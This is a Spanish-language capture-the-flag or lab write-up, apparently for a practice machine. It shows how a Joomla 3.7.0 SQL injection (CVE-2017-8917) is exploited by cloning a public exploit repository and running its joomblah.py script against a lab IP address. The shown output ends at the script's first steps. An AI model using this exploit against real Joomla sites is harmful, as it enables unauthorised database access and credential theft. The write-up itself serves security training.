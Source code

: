 ```bash
```

Nos dirigimos a la URL indicada para verificar si efectivamente es vulnerable a una inyección SQL.

![url](url.png){: .center-image }

Podemos observar que al realizar la consulta SQL obtenemos un error de sintaxis, lo que indica que la página web es vulnerable a **SQLi**.

## Explotación

---

### Inyección SQL en Joomla! 3.7.x - **CVE-2017-8917**

En esta ocasión, utilizamos un script en Python alojado en el repositorio [Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla) para explotar la vulnerabilidad `CVE-2017-8917` en cualquier `Joomla 3.7.0`. Este script nos permite enumerar las tablas y los posibles usuarios, junto con todos sus datos.

Para empezar, procedemos a clonar el repositorio.

```bash
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

Nos dirigimos al directorio clonado.

```bash
cd Exploit-Joomla
```

Para averiguar cómo utilizar el exploit, procedemos a ejecutarlo.

```bash
❯ python joomblah.py
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
usage: joomblah.py [-h] url
joomblah.py: error: too few arguments
```

El resultado del comando nos indica que es necesario proporcionar únicamente la dirección URL del objetivo. Por lo tanto, procedemos a ejecutar el exploit especificando dicha URL.

```bash
❯ python joomblah.py http://10.10.32.232/
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
```